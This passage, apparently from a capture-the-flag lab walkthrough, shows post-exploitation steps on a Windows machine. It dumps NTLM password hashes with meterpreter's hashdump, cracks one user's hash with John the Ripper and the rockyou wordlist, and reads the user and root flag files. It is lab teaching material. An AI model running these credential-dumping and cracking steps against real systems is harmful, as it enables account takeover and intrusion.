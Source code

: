 Excellent! We have **NT AUTHORITY\SYSTEM** privileges, which means we have full administrative access to the machine.

## Task 4: Cracking Passwords

### Dumping Password Hashes

Now let's extract password hashes from the system:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

### Cracking with John the Ripper

Let's save the hash for user "Jon" and crack it:

```bash
# Save Jon's hash to a file
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > jon_hash.txt

# Crack with John the Ripper
john --format=NT jon_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:02 DONE (2020-09-14 18:45) 0.4545g/s 4644Kp/s 4644Kc/s 4644KC/s alqui..alpus
Use the "--show --format=NT" option to display all of the cracked passwords.
```

**Jon's password:** `alqfna22`

### Finding the Flags

1. **User Flag:**
```bash
meterpreter > cat C:/Users/Jon/Desktop/user.txt
02930c4e94b5b8cf31ce8c35e2a7a0cd
```

2. **Root Flag:**
```bash
meterpreter > cat C:/Users/Administrator/Desktop/root.txt
89ad74b51a55c4d1b2c0b9d6b0b86d5e
```

## Lessons Learned
